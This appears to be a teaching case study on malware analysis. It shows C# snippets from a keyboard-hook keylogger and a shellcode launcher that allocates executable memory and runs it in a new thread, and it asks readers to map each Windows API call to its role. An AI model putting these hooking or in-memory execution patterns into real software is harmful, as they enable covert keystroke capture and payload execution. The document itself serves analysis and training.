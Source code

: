 # Malware Case Study: Keylogger and Shellcode Launcher

## Overview

In this case study, we will analyze two malware samples to understand how their API calls interact with the Windows operating system. The samples include:

1. A **C# Keylogger**
2. A **Shellcode Launcher**

---

## Keylogger

### API Calls and Hooks

The keylogger, written in C#, uses P/Invoke to obtain pointers for each API call. Below is a snippet of the P/Invoke definitions from the malware sample source code:

```csharp
[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern IntPtr SetWindowsHookEx(int idHook, LowLevelKeyboardProc lpfn, IntPtr hMod, uint dwThreadId);

[DllImport("user32.dll", CharSet = CharSet.Auto, SetLastError = true)]
[return: MarshalAs(UnmanagedType.Bool)]
private static extern bool UnhookWindowsHookEx(IntPtr hhk);

[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern IntPtr GetModuleHandle(string lpModuleName);

private static int WHKEYBOARDLL = 13;

[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
private static extern IntPtr GetCurrentProcess();
```

### API Call Explanations

| **API Call**            | **Explanation**                                                                 |
|--------------------------|---------------------------------------------------------------------------------|
| `SetWindowsHookEx`       | Installs a memory hook into a hook chain to monitor for certain events.         |
| `UnhookWindowsHookEx`    | Removes an installed hook from the hook chain.                                 |
| `GetModuleHandle`        | Returns a module handle for the specified module if mapped into the process's address space. |
| `GetCurrentProcess`      | Retrieves a pseudo handle for the current process.                             |

### Hooking Process

The following snippet demonstrates how the keylogger sets a hook on the current process:

```csharp
public static void Main() {
    _hookID = SetHook(_proc);
    Application.Run();
    UnhookWindowsHookEx(_hookID);
    Application.Exit();
}

private static IntPtr SetHook(LowLevelKeyboardProc proc) {
    using (Process curProcess = Process.GetCurrentProcess()) {
        return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
    }
}
```

### Analysis

Using the Windows API documentation and the context of the above snippet, analyze the keylogger's objective and procedure. Assign the respective API calls to their roles in the sample.

---

## Shellcode Launcher

### API Calls

The shellcode launcher also uses P/Invoke to interact with the Windows API. Below is a snippet of the P/Invoke definitions from the malware sample source code:

```csharp
private static UInt32 MEM_COMMIT = 0x1000;
private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

[DllImport("kernel32")]
private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

[DllImport("kernel32")]
private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

[DllImport("kernel32")]
private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);
```

### API Call Explanations

| **API Call**        | **Explanation**                                                                 |
|----------------------|---------------------------------------------------------------------------------|
| `VirtualAlloc`       | Reserves, commits, or changes the state of a region of pages in the virtual address space of the calling process. |
| `WaitForSingleObject`| Waits until the specified object is in the signaled state or the time-out interval elapses. |
| `CreateThread`       | Creates a thread to execute within the virtual address space of the calling process. |

### Shellcode Execution

The following snippet demonstrates how the shellcode is written to and executed from memory:

```csharp
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);

IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;

hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

### Analysis

Using the Windows API documentation and the context of the above snippet, analyze the shellcode launcher's objective and procedure. Assign the respective API calls to their roles in the sample.

---

## Conclusion

This case study provides insights into how malware leverages Windows API calls for keylogging and shellcode execution. Use the provided snippets and explanations to deepen your understanding of these techniques.